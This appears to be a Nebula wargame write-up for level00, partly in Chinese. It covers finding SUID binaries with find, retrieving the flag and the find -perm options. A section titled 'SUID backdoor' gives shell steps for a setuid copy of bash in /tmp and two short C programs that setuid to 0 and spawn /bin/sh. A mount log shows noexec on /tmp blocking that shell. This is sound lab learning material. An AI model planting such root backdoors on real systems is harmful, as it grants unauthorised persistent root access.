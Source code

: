 # Level00 

#### About 
 
This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.  
Alternatively, look at the find man page.  
To access this level, log in as level00 with the password of level00.  


#### Source code 

There is no source code available for this level  


#### Solutions 

```  
1. find / -perm -u+s -uid `id -u flag00` -type f 2>/dev/null  
   find / -perm -4000 -uid `id -u flag00` -type f 2>/dev/null  
   find / -type f -perm -4000 -uid `id -u flag00` -exec md5sum {} \; 2>/dev/null   
   ---->   4d0a23fc7855e3dc128c76e18beb11b1  /bin/.../flag00  
   ---->   4d0a23fc7855e3dc128c76e18beb11b1  /rofs/bin/.../flag00  
 
2. /bin/.../flag00  
3. getflag  
```

#### SUID backdoor 
``` 
su root  
cp /bin/bash /tmp/rootshell  
chmod u+s ~/rootshell  
su [someuser]  
/tmp/rootshell  
```
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main()
{
   seteuid( 0 ); // ---- Ubuntu/...
   setuid( 0 );
   system( "/bin/sh" );
 
   return 0;
}
```
```
#include <stdio.h>

int main()
{
    setresuid(0, 0, 0);
    execve("/bin/sh");
}
```

#### Recommend  
  
A. How to find SUID or GUID files ?  

find / -perm 755    # 权限为755  
find / -perm -4000  # 权限包含SUID即可  
find / -perm /4000  #  

rwx rwx rwx  
111 111 111  


-perm mode  
      mode 表示精确的权限位(可以是八进制数或符号)。如果想要使用符号位进行权限匹配，需要指定一个复杂的符号位字符串.  
      如果mode给的权限位不足3位，那么前面自动加0.  
      例如: -perm g=w，只匹配权限为0020的文件(只有用户的组具备写权限)。类似的还有 '/' 或 '-'，  
      例如: -perm -g=w，匹配组权限可写的所有文件.  


      File's permission bits are exactly mode (octal or symbolic).  Since an exact match is required, if  you  want  
      to use this form for symbolic modes, you may have to specify a rather complex mode string.  For example -perm  
      g=w will only match files which have mode 0020 (that is, ones for which group write permission  is  the  only  
      permission  set).   It is more likely that you will want to use the `/' or `-' forms, for example -perm -g=w,  
      which matches any file with group write permission.  See the EXAMPLES section for some illustrative examples.  


-perm -mode  
      所有为1的权限位必须都匹配.  
      文件所有设定的权限位。使用符号权限位时，需指定'u'，'g', 'o'.  

      All of the permission bits mode are set for the file.  Symbolic modes are accepted in this form, and this  is  
      usually  the  way  in  which  would want to use them.  You must specify `u', `g' or `o' if you use a symbolic  
      mode.   See the EXAMPLES section for some illustrative examples. 


-perm /mode  
      匹配任意为1的权限位. 
      文件任意权限位。使用符号权限位时，需指定'u'，'g', 'o'。如果未设定权限位，将会匹配任意文件(等效于-perm -000) 
      Any of the permission bits mode are set for the file.  Symbolic modes are accepted in this  form.   You  must  
      specify `u', `g' or `o' if you use a symbolic mode.  See the EXAMPLES section for some illustrative examples.  
      If no permission bits in mode are set, this test matches any file (the idea here is to be consistent with the  
      behaviour of -perm -000).  


-perm +mode  
      已经弃用，查询某种权限位的设置，等效于 -perm /mode. 
      Deprecated, old way of searching for files with any of the permission bits in mode set.  You should use -perm  
      /mode instead. Trying to use the `+' syntax with symbolic modes will yield surprising results.  For  example,  
      `+u+x' is a valid symbolic mode (equivalent to +u,+x, i.e. 0111) and will therefore not be evaluated as -perm  
      +mode but instead as the exact mode specifier -perm mode and so it matches files with exact permissions  0111  
      instead  of  files  with any execute bit set.  If you found this paragraph confusing, you're not alone - just  
      use -perm /mode.  This form of the -perm test is deprecated because  the  POSIX  specification  requires  the  
      interpretation of a leading `+' as being part of a symbolic mode, and so we switched to using `/' instead.  



find /tmp -name core -type f -print | xargs /bin/rm -f       # 如果文件名中包含core，就删除它  
find /tmp -name core -type f -print0 | xargs -0 /bin/rm -f   # 如果文件名中包含空格，引号，换行符，也可以正确处理.  
find /sbin /usr/sbin -executable \! -readable -print         # 寻找可执行，不可读的文件.  
find /tmp -type f -exec md5sum {} \; 2>/dev/null             # 对每个对象执行操作   

#### Questions

* 如何查找SUID程序?  
* 如何利用SUID制作后门 ？
* 文件权限(挂载选项--mount/fstab)

```
root@nebula:/home/level00# mount
/cow on / type overlayfs (rw)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
fusectl on /sys/fs/fuse/connections type fusectl (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
/dev/sr0 on /cdrom type iso9660 (ro,noatime)
/dev/loop0 on /rofs type squashfs (ro,noatime)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)

root@nebula:/home/level00# cat /etc/fstab 
overlayfs / overlayfs rw 0 0
tmpfs /tmp tmpfs nosuid,noexec,nodev 0 0

root@nebula:/home/level00# mount -o remount,noexec /tmp 

root@nebula:/home/level00# mount
/cow on / type overlayfs (rw)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
fusectl on /sys/fs/fuse/connections type fusectl (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
/dev/sr0 on /cdrom type iso9660 (ro,noatime)
/dev/loop0 on /rofs type squashfs (ro,noatime)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
tmpfs on /tmp type tmpfs (rw,noexec,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)

root@nebula:/home/level00# ls /tmp/
root.c  rootshell  tmux-1001

root@nebula:/home/level00# /tmp/rootshell
bash: /tmp/rootshell: Permission denied
```
